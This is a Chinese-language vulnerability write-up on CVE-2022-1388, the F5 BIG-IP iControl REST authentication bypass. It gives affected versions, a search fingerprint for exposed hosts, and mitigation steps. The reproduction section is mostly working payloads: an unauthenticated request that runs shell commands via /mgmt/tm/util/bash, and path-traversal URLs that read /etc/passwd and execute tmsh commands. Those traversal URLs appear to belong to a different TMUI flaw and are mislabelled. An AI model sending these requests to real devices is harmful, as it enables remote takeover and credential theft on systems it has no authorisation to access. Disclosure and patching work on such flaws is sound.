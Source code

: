 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

```
11.6.1-16.1.2
```

## 网络测绘

```
icon_hash="-335242539"
```

## 漏洞复现

登录页面

![](./images/202205241448502.png)

发送请求包(Host设为localhost)

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![](./images/202205241449854.png)

文件读取：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
RCE 
```

RCE：

```
https://your-ip/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

检测脚本：https://github.com/jheeree/CVE-2022-1388-checker/blob/main/CVE-2022-1388.sh

使用方法：

```
./CVE-2022-1388.sh hosts.txt
```

## 漏洞修复

建议升级至最新版本或可参考官方修复建议 Recommended Actions：https://support.f5.com/csp/article/K23605346

在受影响的版本内可执行以下步骤以缓解攻击：

- 通过自身 IP 地址阻止 iControl REST 访问。
- 通过管理界面阻止 iControl REST 访问。
- 修改 BIG-IP httpd 配置。